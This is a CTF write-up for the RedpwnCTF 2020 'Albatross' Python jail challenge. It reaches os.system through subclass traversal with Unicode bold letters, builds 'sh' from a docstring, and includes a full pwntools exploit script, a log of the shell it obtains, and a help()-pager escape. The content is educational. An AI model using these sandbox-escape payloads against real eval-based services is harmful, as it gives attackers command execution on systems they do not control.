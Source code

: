 ```yaml
---
layout: single
title: "RedpwnCTF 2020 Albatross Writeup by bjornmorten"
---
```


# Albatross
This was a misc pyjail golf challenge.   

We are given the following source code: 
```python
#!/usr/bin/env python3.7
from rctf import golf
import string, os

# NOTE: Although this challenge may seem impossible, rest assured that we have 
# a working solution that would meet the length restriction within the first  
# few days of the CTF. Keep digging!

rate = 2 # bytes per hour
base = 30 # amount to start with
blacklist = string.ascii_letters + '"\' '

if __name__ == '__main__':
    # create banner
    n = golf.calculate_limit(
        'https://staging.redpwn.net/' if os.environ.get('DEBUG') else 'https://2020.redpwn.net/',
        'albatross', # challenge id
        1592769600, # CTF start date
        lambda hours : int(base + (hours * rate))
    )
    
    print(
        'Welcome to Albatross, the pyjail challenge you wish never existed.\n'
        f'* At the moment, you are only permitted to use a payload of {n} bytes or shorter.\n'
        f'* Every hour, the byte restriction will increase by {rate}.\n'
        '* Once the a team solves this challenge, the restriction will stop increasing\n'
        '* The flag is in /flag.txt\n'
        '* Don\'t let b1c get those HackerOne hoodies! Now\'s your chance to stop them with this high-point challenge.\n' # i literally made this challenge to disadvantage b1c btw
    )

    # filter payload
    try:
        payload = ''.join([
            (x if x not in blacklist else '')
            for x in
            input('>>> ')[:n]
        ])
    except (EOFError, KeyboardInterrupt):
        print('\nYou gave up. Understandable.')
        exit()

    # execute payload
    eval(str(payload), {'__builtins__' : None}, {})
```
We have a few restrictions:
* We can not use letters, quotes or spaces. 
* There is a length restriction. This started at 30 bytes and increased by 2 bytes every hour until a team solved it. The final restriction ended up as 102 bytes.
* The builtins are removed.
* We can not see the output.

We will start by bypassing the letter blacklist. Python allows us to use [mathematical alphanumeric symbols](https://en.wikipedia.org/wiki/Mathematical_Alphanumeric_Symbols) as an alternative to normal letters. We will use bold letters.

We will then be looking at what is available in the program. To do this we can run the program locally with the `-i` flag in python to get an interactive shell after the program finishes. 
First we check which classes we have available with:
```python
().__class__.__base__.__subclasses__()
```
We notice we have `<class 'os._wrap_close'>`. This can lead us to recovering `os` followed by `os.system`. To get the class's index we use:
```python
[c.__name__ for c in ().__class__.__base__.__subclasses__()].index('_wrap_close')
```
This gives us 127. Now that we know the index we can recover `os` by accessing the class's global variables in `__init__` like so:
```python
().__class__.__base__.__subclasses__()[127].__init__.__globals__
``` 
Now that we have access to os we can use `os.system` to run system commands. However, `__globals__` is a dictionary and we can not access `system` by the function's name as we can't use quotes. To work around this we will take get the dictionary values and and unpack it into a list. This way we will be able to access it by its index. We now have:
```python
[*().__class__.__base__.__subclasses__()[127].__init__.__globals__.values()][42]
```

The only remaining part now is to give the system command a command to execute. We can't use quotes so we will have to get the string in another way. We can for example use the tuple documentation which contains both an `s` and an `h` and can be combined to `sh` using string slicing.
```python
>>> ().__doc__
"Built-in immutable sequence.\n\nIf no argument is given, the constructor returns an empty tuple.\nIf iterable is specified the tuple is initialized from iterable's items.\n\nIf the argument is a tuple, the return value is the same object."
>>> ().__doc__.index('s')
19
>>> ().__doc__.index('h')
56
>>> ().__doc__[19:57:37]
'sh'
```

Now we just have to put everything together. We end up with a 102 byte payload. The final exploit is:
```python
#!/usr/bin/env python3
from pwn import *

r = remote("2020.redpwnc.tf", 31156)

alphabet_encoded = "𝐚𝐛𝐜𝐝𝐞𝐟𝐠𝐡𝐢𝐣𝐤𝐥𝐦𝐧𝐨𝐩𝐪𝐫𝐬𝐭𝐮𝐯𝐰𝐱𝐲𝐳𝐀𝐁𝐂𝐃𝐄𝐅𝐆𝐇𝐈𝐉𝐊𝐋𝐌𝐍𝐎𝐏𝐐𝐑𝐒𝐓𝐔𝐕𝐖𝐗𝐘𝐙"
alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
bold_translation = str.maketrans(alphabet, alphabet_encoded)

payload = "[*().__class__.__base__.__subclasses__()[127].__init__.__globals__.values()][42](().__doc__[19:57:37])"
payload = payload.translate(bold_translation)

r.sendlineafter(">>> ", payload)
r.interactive()
```
Running this gives us a shell and we can grab the flag.
```bash
root@kali:~# ./exploit.py 
[+] Opening connection to 2020.redpwnc.tf on port 31156: Done
[*] Switching to interactive mode
$ ls 
albatross.py
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
media
mnt
opt
proc
root
run
sbin
srv
start.sh
sys
tmp
usr
var
$ cat flag.txt
flag{SH*T_I_h0pe_ur_n0t_b1c..._if_y0u_@r3,_th1$_isn't_th3_fl@g}
```

## Alternative 48 bytes method
Before we got our final solution we had an alternative way which just required 48 bytes, but this did unfortunately not work on the remote instance as it requires a fully interactive TTY.
The solution is using the help function in python. Python help is using a pager, in our case less, to show help messages. By using the encoded version of the following payload locally we get a shell after we type `!/bin/sh`. On the remote instance it opens the pager but we can not properly interact with it to get a shell. 
```python
().__class__.__base__.__subclasses__()[130]()(1)
```
